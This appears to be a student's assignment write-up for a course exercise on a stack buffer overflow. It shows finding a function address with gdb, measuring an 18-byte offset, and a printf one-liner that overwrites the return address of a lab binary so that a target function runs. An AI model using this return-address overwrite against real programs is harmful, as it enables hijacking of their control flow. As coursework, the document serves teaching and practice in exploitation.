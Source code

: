 ### <center><b><h1>Assignment2</h1></b></center>
<center><b>Wonchan Kim 301449586 </b></center>
<h2>Q2</h2>
![[Pasted image 20250925144031.png]]
![[Pasted image 20250925144137.png]]
with gdb debugger, it is possible to get the function address. Need to overflow the buffer with the address of target_function.
![[Pasted image 20250925145859.png]]
setting the breakpoint at the vulnerable function and running
![[Pasted image 20250925152245.png]]
indicates there are 18 bytes difference between the return address of the vulnerable function. 

Hence, 

printf 'AAAAAAAAAAAAAAAAAA\xbb\x11\x40\x00\x00\x00\x00\x00' > p.txt

cat p.txt |./sof
Enter some text: You entered: AAAAAAAAAAAAAAAAAA�@
Yes! You did it!


